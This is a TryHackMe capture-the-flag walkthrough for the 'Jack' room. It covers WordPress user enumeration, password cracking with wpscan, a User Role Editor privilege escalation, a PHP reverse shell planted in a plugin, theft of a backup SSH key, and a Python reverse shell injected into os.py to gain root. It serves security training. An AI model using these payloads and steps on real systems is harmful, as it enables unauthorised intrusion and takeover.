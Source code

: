 # [Jack](https://tryhackme.com/room/jack)

## Compromise a web server running Wordpress, obtain a low privileged user and escalate your privileges to root using a Python module.

# Deploy & Root

## Connect to our network and deploy this machine. Add jack.thm to /etc/hosts

### Gain initial access and obtain the user flag.

_Wpscan user enumeration, and don't use tools (ure_other_roles)_

1. Add the target domain to `/etc/hosts` file

[SCREEN01]

2. Enumerate WordPress users with `WPScan`
   - Found users are **jack**, **danny**, **wendy**

```bash
wpscan --url http://jack.thm --enumerate u
```

[SCREEN02]

3. Crack the password
   - Wendy password is: **changelater**

```bash
wpscan --url http://jack.thm --passwords /root/Tools/wordlists/rockyou.txt --usernames jack,danny,wendy
```

[SCREEN03]

4. Wendy has limited privileges. Enumerate WordPress plugins to find potential vulnerabilities
   - The site uses **User Role Editor (version 4.24)**, which allows modification of user roles and capabilities

```bash
wpscan --url http://jack.thm --enumerate p --plugins-detection aggressive
```

[SCREEN04]

5. Capture POST request to update profile at `http://jack.thm/wp-admin/profile.php` and add `&ure_other_roles=administrator` at the end

[SCREEN05]

6. Now with administrative access go to the `http://jack.thm/wp-admin/plugin-editor.php` and add the [reverse shell payload](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) at the beggining of the script

```php
<?php
// Set Your IP and Port
$ip = '127.0.0.1';
$port = 4444;

// Open Connection on Your Machine
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

[SCREEN06]

7.On your attack machine, set up a listener to catch the reverse shell

```bash
nc -lvnp 4444
```

7. Activate the modified Akismet plugin by navigating to `http://jack.thm/wp-admin/plugins.php` and clicking "Activate" under Akismet

8. Get the user flag

```bash
cat /home/jack/user.txt
```

[SCREEN07]

---

### Escalate your privileges to root. Whats the root flag?

_Python_

1. Upgrade to a more stable shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

2. Read the `reminder.txt`

```bash
cat /home/jack/reminder.txt
```

[SCREEN08]

3. Check the backups directory `/var/backups` and get the `id_rsa`. Save it on our attack machine and use it to login as jack

```bash
ls -la /var/backups
cat /var/backups/id_rsa
```

```bash
chmod 600 id_rsa
ssh -i id_rsa jack@10.10.144.140
```

4. Search for custom Python scripts that might be running with elevated privileges
   - There is `/opt/statuscheck/checker.py` which imports `os.py`

```bash
find / -name "*.py" -not -path "/usr/lib/*" -not -path "/etc/python*" 2>/dev/null

cat /opt/statuscheck/checker.py

locate os.py
```

[SCREEN09]

5. Start new listener on attack machine and add payload at the end of `os.py` file

```bash
nc -lvnp 5555
```

```bash
nano /usr/lib/python2.7/os.py
```

```python
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.63.179",5555))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

[SCREEN10]

6. Wait for shell and get the `root.txt` flag

```bash
cat /root/root.txt
```

[SCREEN11]
